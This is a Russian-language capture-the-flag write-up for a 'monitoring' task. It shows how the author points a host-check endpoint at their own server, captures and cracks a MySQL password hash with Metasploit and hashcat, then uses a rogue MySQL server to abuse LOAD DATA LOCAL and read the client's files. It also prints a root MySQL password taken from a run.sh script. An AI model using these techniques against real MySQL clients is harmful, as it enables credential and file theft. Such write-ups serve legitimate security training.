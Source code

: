 1. Открываем monitoring.ctf2019.rocks в браузере, смотрим в инспекторе, куда отправляется запрос,
находим `/api/check_host?target=monitoring.ctf2019.rocks&_=1568625234943`

Меняем target на наш сервер и получаем ошибку `{"result":{"errmsg":"MySQL server is unavailable","success":false}}`

Запускаем mysqld на сервере, по-прежнему наблюдаем ошибку. Делаем вывод, 
что mysql должен быть полностью рабочим. Заменяем mysqld на metasploit
  ```
msf > use auxiliary/server/capture/mysql
msf > set ACTION Capture
msf > run
```
получаем хэш пароля при известной соли (112233445566778899aabbccddeeff1122334455)
Крафтим правильный файл и скармливаем его hashcat'у
```bash
# cat hash
$mysqlna$112233445566778899aabbccddeeff1122334455*9bc23bfcf64e62a9ff0cb57e7038a360cfe201ef
#  
# hashcat -m11200 -a0 hash rockyou.txt --force --potfile-path monitoring.mysql.pot
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Common KVM processor, 1024/2959 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=3 -D DGST_R1=4 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=5 -D KERN_TYPE=11200 -D _unroll'
Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$mysqlna$112233445566778899aabbccddeeff1122334455*9bc23bfcf64e62a9ff0cb57e7038a360cfe201ef:passw0rd

Session..........: hashcat
Status...........: Cracked
Hash.Type........: MySQL CRAM (SHA1)
Hash.Target......: $mysqlna$112233445566778899aabbccddeeff1122334455*9...e201ef
Time.Started.....: Mon Sep 23 08:57:13 2019 (0 secs)
Time.Estimated...: Mon Sep 23 08:57:13 2019 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18053 H/s (2.32ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> lovers1

Started: Mon Sep 16 08:57:12 2019
Stopped: Mon Sep 16 08:57:14 2019
```
Пробуем с полученным паролем сходить в mysql, который светится на хосте мониторинга, и получаем.... ничего. Все усилия были впустую.

2. Начинаем заново. Запускаем tcpdump, натравливаем скрипт мониторинга на наш сервер, и внимательно анализируем трафик.
Внезапно замечаем, что клиент репортит свои capabilities, среди которых есть некое `Can Use LOAD DATA LOCAL`. Выглядит заманчиво.
Спрашиваем у гугла "mysql LOAD DATA LOCAL exploitation" и находим:
 https://blog.tarq.io/insecure-defaults-exploiting-load-data-local-infile/
 
 Немного напряжения памяти и гугла, и запускается bettercap с модулем mysql.server
 К сожалению, bettercap оказался немного кривым, и найденный флаг получился обрезанным (куда-то исчезло последние 4 байта), из-за чего он был воспринят как фейковый.
 На следующий день процесс поиска подходящего инструментария был возобновлен, и благодаря  
 http://www.abclinuxu.cz/blog/jenda/2019/2/exploiting-mysql-arbitrary-file-read-a-honeypot-that-kicks
 найден https://github.com/Gifts/Rogue-MySql-Server
 
 И получен искомый флаг
 ```
2019-09-17 05:16:30,948:INFO:Conn from: ('92.223.25.102', 38436)
2019-09-17 05:16:30,958:INFO:Last packet
2019-09-17 05:16:30,967:INFO:Query
2019-09-17 05:16:30,977:INFO:-- result
2019-09-17 05:16:30,977:INFO:Result: '\x02WFCTF{E430CF3748667586AA89FF0A078D876B}\n'
2019-09-17 05:16:30,985:INFO:-- result
2019-09-17 05:16:30,986:INFO:Result: '\x03'
2019-09-17 05:16:30,986:INFO:Last packet
```

2. Начался процесс поиска дополнительных флагов. В /etc/passwd, вопреки ожиданиям, ничего не нашлось :)
В это время в index.html была найдена занимательная отсылка к Д.Адамсу, 
и XOR помог из строки `[125, 109, 105, 126, 108, 81, 18, 108, 26, 30, 27, 26, 24, 110, 26, 110, 27, 111, 108, 29, 110, 29, 105, 27, 25, 111, 105, 111, 18, 26, 18, 110, 104, 31, 105, 24, 18, 110, 87]`
получить WGCTF{8F04102D0D1EF7D7C13ECE808DB5C28D}

3. Последний флаг был найден спустя несколько дней, после решения otp, 
в котором ключевым моментом оказался /run.sh
```
mysql -u root -pkeiBeethah2koh0yaelaquuulohghuufaipaiy3bohbohdaeha --protocol TCP -e "INSERT INTO secret.sec VALUES (\'WGCTF{B14DCE85DD189E423F9ABDD960DFE23F}\')
```